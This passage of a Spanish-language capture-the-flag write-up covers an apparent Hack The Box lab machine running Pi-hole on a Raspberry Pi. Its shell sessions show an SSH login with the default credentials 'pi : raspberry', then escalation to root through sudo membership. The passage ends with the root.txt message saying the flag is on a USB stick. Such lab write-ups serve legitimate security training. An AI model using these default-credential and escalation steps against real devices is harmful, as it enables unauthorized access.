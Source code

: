 Si buscamos un poco sobre **Pi-hole**, encontraremos que se encuentra asociada a una **raspberry**, por lo que existen credenciales default de acceso por ssh, las cuales son `pi : raspberry`. Asi que vamos a tratar de acceder por ssh a ver si tenemos suerte.

```bash
❯ ssh pi@10.10.10.48
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Ahora vamos a tratar de escalar privilegios, por lo que vamos a enumrar un poco el sistema.

```bash
pi@raspberrypi:~/Desktop $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~/Desktop $
```

Nos encontramos dentro del grupo `sudo`, por lo que ya podemos ser el usuario **root**:

```bash
pi@raspberrypi:~/Desktop $ sudo su
root@raspberrypi:/home/pi/Desktop# whoami
root
root@raspberrypi:/home/pi/Desktop# 
```

A este punto podriamos tratar de visualizar la flag (root.txt), pero al hacer, nos aparece una leyenda.

```bash
root@raspberrypi:/home/pi/Desktop# cd /root/
root@raspberrypi:~# ls -l
total 4
-rw-r--r-- 1 root root 76 Aug 14  2017 root.txt
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~#
```

